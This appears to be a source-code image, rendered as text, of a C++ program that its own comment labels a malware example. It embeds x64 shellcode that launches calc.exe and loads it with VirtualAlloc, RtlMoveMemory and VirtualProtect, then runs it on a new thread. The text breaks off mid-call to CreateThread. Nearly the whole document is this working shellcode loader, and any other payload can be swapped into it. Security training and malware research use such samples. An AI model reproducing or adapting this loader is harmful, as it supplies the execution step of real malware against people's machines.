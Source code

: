 ```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
```